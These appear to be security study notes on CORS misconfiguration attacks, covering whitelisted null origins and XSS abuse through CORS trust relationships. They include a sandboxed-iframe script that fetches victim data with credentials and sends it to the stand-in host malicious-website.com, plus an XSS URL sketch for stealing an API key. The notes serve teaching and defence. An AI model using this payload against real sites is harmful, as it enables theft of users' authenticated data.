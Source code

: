 ### Whitelisted null origin value
````
The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:

Cross-site redirects.
Requests from serialized data.
Request using the file: protocol.
Sandboxed cross-origin requests.
Some applications might whitelist the null origin to support local development of the application. 
For example, suppose an application receives the following cross-domain request:

GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null

And the server responds with:

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true

In this situation, an attacker can use various tricks to generate a cross-domain request containing the value null in the Origin header. 
This will satisfy the whitelist, leading to cross-domain access. 
For example, this can be done using a sandboxed iframe cross-origin request of the form:

<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
````
### Exploiting XSS via CORS trust relationships
````
Even "correctly" configured CORS establishes a trust relationship between two origins. 
If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

Given the following request:

GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...

If the server responds with:

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true

Then an attacker who finds an XSS vulnerability on subdomain.vulnerable-website.com could use that to retrieve the API key, using a URL like:

https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
````